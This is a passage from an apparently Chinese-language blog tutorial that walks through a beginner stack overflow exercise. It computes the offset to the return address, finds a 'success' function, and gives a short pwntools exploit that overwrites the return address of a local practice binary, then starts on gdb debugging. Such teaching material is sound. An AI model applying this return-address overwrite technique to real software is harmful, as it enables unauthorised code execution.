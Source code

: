 
说明s的大小为14h

那么在32位中ebp的栈大小为 4个字节 所以如果我们要覆盖到 返回地址 就需要 14h+4h个字节

然后我们需要去找到返回的地址应该指向哪里



<img src="https://i-blog.csdnimg.cn/blog_migrate/dda6c906fe427f79c99b609177badecc.png" alt="" style="max-height:285px; box-sizing:content-box;" />


shift+f12 得到controlled



<img src="https://i-blog.csdnimg.cn/blog_migrate/d17188d536b23979c68b29658f287b0c.png" alt="" style="max-height:158px; box-sizing:content-box;" />


发现success的地址



<img src="https://i-blog.csdnimg.cn/blog_migrate/7c7165ee46ce9698fabeed2e6cc323f5.png" alt="" style="max-height:374px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/3898893000bb57d82ba600bf182a05cc.png" alt="" style="max-height:43px; box-sizing:content-box;" />


源代码中也是success函数 就是我们的"shellcode"

所以我们开始运用pwntools写exp

```cobol
from pwn import *
p=process('./stack_example')
payload=flat([b'A'*(0x14+0x04),0x08049186])
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/12ceaf7bd9849dc4b3157f7d18fe55a3.png" alt="" style="max-height:259px; box-sizing:content-box;" />


发现我们已经控制了

解决完这个入门题

我们开始解读

## gdb

我们开始gdb 的调试 这里我们需要了解一些单词

```undefined
registers ： 寄存器的状态
```


